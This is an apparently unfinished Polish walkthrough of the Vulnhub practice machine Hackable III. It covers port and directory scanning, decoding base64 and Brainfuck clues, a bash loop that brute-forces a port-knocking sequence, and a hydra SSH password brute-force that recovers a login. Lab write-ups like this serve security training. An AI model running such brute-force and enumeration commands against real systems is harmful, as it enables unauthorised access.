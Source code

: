 ```yaml
---
title: "Hackable: III - in progress"
excerpt: " "
comments: true
categories:
  - Hacking
tags:
  - Hacking
  - Vulnhub
header:
  overlay_image: /assets/images/pasek-hack.png
gallery1_2:
  - url: /assets/images/hacking/2021/06/01.png
    image_path: /assets/images/hacking/2021/06/01.png
  - url: /assets/images/hacking/2021/06/02.png
    image_path: /assets/images/hacking/2021/06/02.png
gallery3:
  - url: /assets/images/hacking/2021/06/03.png
    image_path: /assets/images/hacking/2021/06/03.png
gallery4_5:
  - url: /assets/images/hacking/2021/06/04.png
    image_path: /assets/images/hacking/2021/06/04.png
  - url: /assets/images/hacking/2021/06/05.png
    image_path: /assets/images/hacking/2021/06/05.png
---
```

# Wstęp
[Hackable III](https://www.vulnhub.com/entry/hackable-iii,720/)  jest najnowszą maszyną od [Eliasa Soulsa](https://www.vulnhub.com/author/elias-sousa,804/) (stan na lipiec 2021). Oznaczona jest poziomem **medium**. Nie jest tak łatwa, jak opisywane wcześniej maszynki. Jest bardzo podchwytliwa i straciłem nad nią dosyć dużo czasu, ale człowiek uczy się całe życie. Metasploita będę używał, ale nie jest on tutaj głównym narzędziem. Mała uwaga, na XCP-ng musisz nazwę interfejsu sieciowego zmienić w dwóch miejscach. Rozwiązanie podaje na końcu, gdyż to może komuś zepsuć zabawę.
{: .text-justify}
## Zaczynamy
```bash
msf6 > db_nmap -A -p- 172.16.1.103
host          port  proto  name  state     info
----          ----  -----  ----  -----     ----
172.16.1.103  22    tcp    ssh   filtered
172.16.1.103  80    tcp    http  open      Apache httpd 2.4.46 (Ubuntu)
```
Mamy dwa porty, 80 i 22. Jeden jest filtrowany. Zacznijmy od www. Wchodząc na stronę mamy takie coś (Kierujemy się na górny lewy róg) i mamy menu.
{: .text-justify}
{% include gallery id="gallery1_2"  %}
Logowanie nic nam nie daje. W kodzie źródłowym (http://172.16.1.103/login_page/login.html) jest informacja, że to może do końca nie działać: *This page is not ready, may give error*. Bawiąc się Burpsuitem i odpalając powyższy link, Burpsuite kieruje nas do  http://172.16.1.103/login.php, a tam jest coś dziwnego, zamiast wyniku z logowania, dostajemy kod źródłowy w PHP. Z początku myślałem, że to jest ułatwienie dla pentestera i PHP nam wyświetla tę informacje, żeby ułatwić zadanie, ale nie. Niezależnie jakie parametry podasz, to jest zwykły kod w HTML-u, tyle że ma rozszerzenie php! Na nic się zda wstrzykiwanie parametrów. Zanim do tego doszedłem minęło trochę czasu, ale to był ciekawy pomysł autora.
{: .text-justify}
{% include gallery id="gallery3"  %}
Sprawdźmy co jest jeszcze na na tym serwerze www:
{: .text-justify}
```bash
root@kali:/home/szikers# gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://172.16.1.103 -x php,txt,html,htm,png,jpg,
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.1.103
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html,htm,png,jpg,
[+] Timeout:                 10s
===============================================================
2021/07/30 18:44:19 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1095]
/home.html            (Status: 200) [Size: 11327]
/login.php            (Status: 200) [Size: 487]
/3.jpg                (Status: 200) [Size: 61259]
/css                  (Status: 301) [Size: 310] [--> http://172.16.1.103/css/]
/js                   (Status: 301) [Size: 309] [--> http://172.16.1.103/js/]
/config               (Status: 301) [Size: 313] [--> http://172.16.1.103/config/]
/config.php           (Status: 200) [Size: 507]
/backup               (Status: 301) [Size: 313] [--> http://172.16.1.103/backup/]
/robots.txt           (Status: 200) [Size: 33]
/imagens              (Status: 301) [Size: 314] [--> http://172.16.1.103/imagens/]
/login_page           (Status: 301) [Size: 317] [--> http://172.16.1.103/login_page/]
/server-status        (Status: 403) [Size: 277]

===============================================================
2021/07/30 18:48:55 Finished
=============================================================== 
```
## Zawartość
**http://172.16.1.103/backup/** 
wordlist.txt – pewnie hasła użytkowników
**http://172.16.1.103/robots.txt **
- User-Agente: *
- Disallow: /config
**http://172.16.1.103/config/**
1.txt - tekst zakodowany w Base64 **MTAwMDA=**
Szybkie dekodowanie:
```bash
echo MTAwMDA= | base64 -d
10000
```
**http://172.16.1.103/css/**
2.txt – tutaj mamy kod w Brainfuck. Można to odkodować poprzez stronę, albo przez program Beef.
**++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>------------------....**
```bash
root@kali:/home/szikers# beef 2.txt
4444
```
Jest jeszcze 3.jpg, ale tam nie znalazłem nic ciekawego. Nie mówię, że nie ma. Przez dłuższy czas szukałem jakiejś podatności na WWW. Jednak nie mogłem znaleźć.
{: .text-justify}
Podsumowując mamy:
- 10000
- 4444
- ?
## Knockd 
Spróbowałem wejść przez Ssh, ale była blokada. Jeszcze raz przejrzałem kody, przeczytałem notatkę: *Please, jubiscleudo, don't forget to activate the port knocking when exiting your section, and tell the boss not to forget to approve the .jpg file - dev_suport@hackable3.com*  i nagle mnie olśniło. Do blokowania Ssh używa się Knockd (Trzeba zainstalować w Kali). Bez podania odpowiednich „zapukań” dostęp do Ssh będzie utrudniony. Zazwyczaj podaje się 3 parametry w przeciągu 5 sekund. Dwa pierwsze mamy. 10000 i 4444. Trzeci być może gdzieś jest w tej maszynie, szukałem w pliku 3.jpg, ale nie znalazłem (jak znajdę, zmienię ten wpis). Nie mamy trzeciego numeru, ale możemy spróbować bruteforce, chociaż to może potrwać parę dni. Jest 65536 możliwości (0-65535) na trzeci numer. Napisałem szybko skrypcik.
{: .text-justify}
```bash
#!/bin/bash
for i in {0..65535}; do
knock -v 172.16.1.103 10000 4444 $i
sleep 5
done
#--------- 
```
I co? Nie działa (prawdę mówiąc nie czekałem tyle dni). Niestety to była wina maszyny i XCP-ng. Znalazłem w logach, że knockd nasłuchiwał na ensp03, zamieniłem na eth0. Po zakończeniu działania powyższego skryptu Ssh działał! Użytkownikiem zapewne jest **jubiscleudo**, a hasło pewnie jest w wordlist.txt. Użyjmy Hydry.
{: .text-justify}
```bash
hydra -V -T 64 ssh://172.16.1.103 -l jubiscleudo -P wordlist.txt

[ATTEMPT] target 172.16.1.103 - login "jubiscleudo" - pass "maria" - 204 of 303 [child 15] (0/3)
[ATTEMPT] target 172.16.1.103 - login "jubiscleudo" - pass "onlymy" - 205 of 303 [child 13] (0/3)
[ATTEMPT] target 172.16.1.103 - login "jubiscleudo" - pass "gabriela" - 206 of 303 [child 4] (0/3)
...
[22][ssh] host: 172.16.1.103   login: jubiscleudo   password: onlymy
```
## Shelltris
W katalogu **scripts** jest plik **tetris.sh**. Po uruchomieniu brakuje w nim pliku getch i program blokuje cały system. Popatrzyłem na kod źródłowy i zobaczyłem, że oryginalny nazywa się **ShellTris**. Ściągnałem cały [kod](https://shellscriptgames.com/shelltris/tarballs/shelltris-1.1.tar.gz). Skompilowałem na swoim shellu plik **getch.c**. I nic. Nie ma root-a. Być może za jakiś czas ktoś rozwiąże problem, jak nie to pewnie zrobi to ktoś inny. Jak znalazłeś rozwiązanie to napisz [kerszi@protonmail.com](mailto:kerszi@protonmail.com)
{: .text-justify}
{% include gallery id="gallery4_5"  %}
Uwaga, jeżeli chcesz, żeby ta maszyna działała na XCP-ng trzeba podczas startu systemu zmienic w Grubie ro na rw init=/bin/bash, potem F10, w /etc/netplan/00-installer-config.yaml zmieniamy na interfejs eth0. Dodatkowo należy zmienić w /etc/default/knockd na KNOCKD_OPTS="-i eth0".
{: .text-justify}
{: .notice--danger}
